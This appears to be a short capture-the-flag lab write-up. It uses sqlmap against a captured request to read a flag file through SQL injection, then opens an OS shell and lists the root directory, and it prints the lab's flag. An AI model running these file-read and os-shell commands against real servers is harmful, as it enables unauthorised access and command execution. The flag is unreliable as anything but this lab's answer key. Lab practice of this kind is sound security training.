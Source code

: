 We can use this:

```
python3 sqlmap.py -r os.txt --file-read "/var/www/html/flag.txt" --batch --threads 10
```

We get the following:

```
HTB{5up3r_u53r5_4r3_p0w3rful!}
```

## Second
---

We can use this command in order to get a shell:

```
python3 sqlmap.py -r os.txt --os-shell --threads 10 --batch
```

We can see our shell:

![Pasted image 20250204180603.png](../../../../IMAGES/Pasted%20image%2020250204180603.png)

If we do `ls /`, we can see the following:

```
os-shell> ls /
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output:
---
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
---
```
